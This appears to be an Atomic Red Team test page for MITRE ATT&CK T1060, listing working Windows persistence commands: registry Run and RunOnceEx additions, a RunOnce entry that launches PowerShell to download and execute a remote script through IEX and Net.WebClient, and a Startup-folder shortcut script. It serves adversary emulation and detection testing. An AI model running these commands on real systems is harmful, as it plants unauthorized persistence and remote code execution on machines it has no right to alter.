 # Registry Run Keys / Start Folder

MITRE ATT&CK Technique: [T1060](https://attack.mitre.org/wiki/Technique/T1060)

## Reg Add 1

    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "C:\Path\AtomicRedTeam.exe"


## Reg Add 2

    REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\Path\AtomicRedTeam.dll"

## PowerShell

    $RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
    set-itemproperty $RunOnceKey "NextRun" 'C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat`")"'

Oneliner:

    set-itemproperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce" "NextRun" 'C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat`")"'

## Startup Folder

Single User:

    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

All Users:

    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

Add .lnk file to startup with PowerShell:

    $TargetFile = "$env:SystemRoot\System32\notepad.exe"
    $ShortcutFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Notepad.lnk"
    $WScriptShell = New-Object -ComObject WScript.Shell
    $Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
    $Shortcut.TargetPath = $TargetFile
    $Shortcut.Save()
